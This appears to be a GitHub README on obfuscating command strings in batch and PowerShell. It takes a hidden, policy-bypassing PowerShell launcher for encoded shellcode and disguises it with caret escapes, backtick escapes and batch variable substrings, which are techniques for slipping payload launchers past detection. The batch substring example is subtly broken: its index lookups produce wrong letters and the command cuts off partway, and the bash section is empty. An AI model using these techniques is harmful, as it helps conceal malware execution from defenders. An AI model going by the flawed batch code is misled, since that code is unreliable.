 <br />

# SIMPLE STRING OBFUSCATION TECNICS

<br /><br />

### batch

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** ^<br />

- string obfuscated<br />
`cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode`<br />

<br />

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />

      @echo off
      SET varObj=abcdefghijlmnopqrstuvxzkyW0123456789ABCDEFGHIJLMNOPQRSTUVXZKYW
      %varObj:~3,1%%varObj:~12,1%%varObj:~4,1%.exe /c %varObj:~15,1%%varObj:~14,1%%varObj:~26,1%%varObj:~5,1%%varObj:~17,1%%varObj:~18,1%%varObj:~8,1%%varObj:~5,1%%varObj:~11,1%%varObj:~11,1%.exe -nop -%varObj:~26,1%%varObj:~9,1%%varObj:~4,1%%varObj:~4,1%%varObj:~5,1%%varObj:~13,1% 


      

---

<br />

### bash


---

<br />

### powershell

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **powershell escape caracter** `<br />

- string obfuscated<br />
cm\`d.e\`xe /c po\`w\`er\`shel\`l.ex\`e -n\`op -w\`i\`nd h\`idd\`en -Ex\`e\`c B\`yp\`a\`ss -no\`n\`i -en\`c $shellcode<br />

---

<br />
